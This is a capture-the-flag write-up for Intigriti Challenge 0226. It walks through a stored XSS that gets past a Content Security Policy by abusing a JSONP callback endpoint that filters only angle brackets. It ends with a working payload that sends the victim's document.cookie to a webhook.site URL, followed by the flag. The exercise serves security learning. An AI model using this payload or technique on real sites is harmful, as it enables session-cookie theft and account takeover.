






HI there this is my write up for **Challenge 0226**

## Testing around

First i create account and login !

I realize that there is `/post/new` where i can create new post…

So i test with simple payload like <h1> if it  `xss` vuln

```html
<h1>testContent</h1>
```





Success !!!

## Investigating

Now i try with this payload 

```html
<script>alert('XSS')</script>
```

But it seems like doenst trigger xss ??? hmm

From source code i get this 

`post_view.html`

```html
<meta http-equiv="Content-Security-Policy" content="default-src 'self'; script-src 'self'; style-src 'self' 'unsafe-inline'; img-src * data:; connect-src *;">
```

### The Block (`script-src 'self'`)

This is the most important part.

- **So what it does:** It tells the browser, "Only execute JavaScript files if they come from **this `exact same domain`**."
- **So payload like below wont work !!**
    - `<script>alert(1)</script>` ❌ Blocked (Inline).
    - `` ❌ Blocked (Inline event handler).
    
- But is there anyway to bypass this ???
    - Checkout  `Preview.js`
    
    ```jsx
    (function() {
        'use strict';
        
        const pathParts = window.location.pathname.split('/');
        const postId = pathParts[pathParts.length - 1];
        
        if (!postId || isNaN(postId)) {
            return;
        }
        
        if (typeof CONFIG !== 'undefined' && CONFIG && CONFIG.safeMode === true) {
            document.getElementById('preview').innerHTML = '<p>Preview disabled in safe mode.</p>';
            return;
        }
        
        fetch('/api/render?id=' + postId)
            .then(function(response) {
                if (!response.ok) throw new Error('Failed to load');
                return response.json();
            })
            .then(function(data) {
                const preview = document.getElementById('preview');
                preview.innerHTML = data.html;
                processContent(preview);
            })
            .catch(function(error) {
                document.getElementById('preview').innerHTML = '<p class="error">Failed to load content.</p>';
            });
        
        function processContent(container) {
            const codeBlocks = container.querySelectorAll('pre code');
            codeBlocks.forEach(function(block) {
                block.classList.add('highlighted');
            });
            
            const scripts = container.querySelectorAll('script');
            scripts.forEach(function(script) {
                if (script.src && script.src.includes('/api/')) {
                    const newScript = document.createElement('script');
                    newScript.src = script.src;
                    document.body.appendChild(newScript);
                }
            });
        }
    })();
    
    ```
    
    At the end of the code there are a condition checking if there is `/api/` , so that it can be pass !!!!
    
    - `<script src="/api/render?id=138..."></script>` If i have payload like this will be allowed (Same origin).

### The Exfiltration Channel (`connect-src *`)

- This one allows JavaScript (once it is running) to send data to **ANY** URL.
- With this we can freely send the stolen cookies to your Webhook. The browser won't stop the `fetch('https://webhook.site/...')` call.

Through `burpsuite`  We can see that `/api/render?id=158`  is really interesting



Further investigating in source code 

### The `app.py`

Look at this one !

```python
@app.route('/api/jsonp')
def api_jsonp():
    callback = request.args.get('callback', 'handleData')
    
    if '<' in callback or '>' in callback:
        callback = 'handleData'
    
    user_data = {
        'authenticated': 'user_id' in session,
        'timestamp': time.time()
    }
    
    if 'user_id' in session:
        user = User.query.get(session['user_id'])
        if user:
            user_data['username'] = user.username
    
    response = f"{callback}({json.dumps(user_data)})"
    return Response(response, mimetype='application/javascript')

```

**`Quick explain`**

The above endpoint api takes the `callback` parameter from the URL (`?callback=myFunction`). If you don't provide one, it defaults to `handleData`.

And the developer also so tried to prevent xss by blocking HTML tags (`<` and `>`). **But there are still many JavaScript syntax characters** like parentheses `()`, semicolons `;`, quotes `'`, slashes `/`, or the equals sign `=` available !

```jsx
if '<' in callback or '>' in callback:
    callback = 'handleData'
```

### The critical Point

```jsx
response = f"{callback}({json.dumps(user_data)})"
```

It takes your input (`callback`) and send it directly with the JSON data.

- If you send `callback=alert(1)`, the server creates the string: `alert(1)({...data...})`.
- If you send `callback=fetch(...)//`, the server creates: `fetch(...)//({...data...})`. (The `//` comments out the rest of the line so the JSON doesn't cause a syntax error).



Finally The server sends this response back with the content type `application/javascript`. And well because this response comes from the **same domain** (`/api/jsonp`), so the **Content Security Policy (CSP)** (`script-src 'self'`) allows it to run.

## Exploiting vuln

My Ultimate payload 

```jsx
<script src="/api/jsonp?callback=fetch('https://webhook.site/2c07db91-6c98-4489-b4a0-d8ac31016276?c='%2bdocument.cookie);//"></script>
```

Well done !!!



Flag : `INTIGRITI{019c668f-bf9f-70e8-b793-80ee7f86e00b}`